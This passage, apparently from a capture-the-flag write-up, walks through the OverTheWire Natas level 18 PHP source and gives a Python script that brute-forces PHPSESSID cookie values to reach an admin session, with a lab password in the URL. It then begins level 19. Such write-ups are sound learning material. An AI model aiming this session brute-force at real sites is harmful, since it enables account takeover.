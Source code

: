 
There's a lot going on here, but it's PHP, so we can just start at the top and work our way down.

Straight away we have a variable called `maxid`, with a value of 640, and a comment saying "640 should be enough for everybody" (Bill Gates reference?). THe fact that we have a `max` value for something suggests we might be able to get the application to perform in interesting ways if we pass it something beyond that value, or we create more id's than the maximum allows (something to play with later)

Next we have a rather juicy looking function called `isValidAdminLogin`, but it appears to have been disabled. So that might be something we want to try and break into to reactivate?

Following that admin login function we have three functions, the first just checks if the value being passed in is actually a number, the second uses the `maxid` to generate a random `id`. Then we have a `debug` function which, it's probably safe to assume, activates a debug mode.

Bit juicier this next function, `my_session_start` checks our `PHPSESSID` against that `isValidID` function, then looks to start a `debug` session as the `admin` user. Which is something we really want to investigate once we're done with the analysis.

Following on from this is a function called `print_credentials` which as the name might suggest, prints the credentials for the next level. And it looks like being logged in as the `admin` user is the way to get there. 

Finally we have a bit of logic. The crux of which is an `if` and an `else` that will determine if we get to play in the next level.

... Phew

The TL;DR of all that is that we need to break out the python and bruteforce us a Session ID. 

```
import requests

# Didn't know you could use Basic Auth in this way! :) 
# Log into the website
target = "http://natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP@natas18.natas.labs.overthewire.org/"
post_value = {'username':'admin', 'password[]':''}

for n in range(640):
    cookie = {"PHPSESSID": str(n)}
    r = requests.post(target, data=post_value, cookies=cookie)
    if "You are an admin" in r.text:
        print r.text
        break

```

The trick to this one is that we have a "max ID" value, that means that the admin user MUST be one of those values, so we just have to try them all until we find the right one. This is easily done by just setting up a `for` loop and going through it until we get the output we want then `break`'ing so we don't miss our key. 

## Level 19

The code for this one is very similar, so I won't bother pasting it here, the main difference is the way that the Session ID is generated. Instead of just being an integer value, as in the last level, the value is an ASCII-Hex string. 
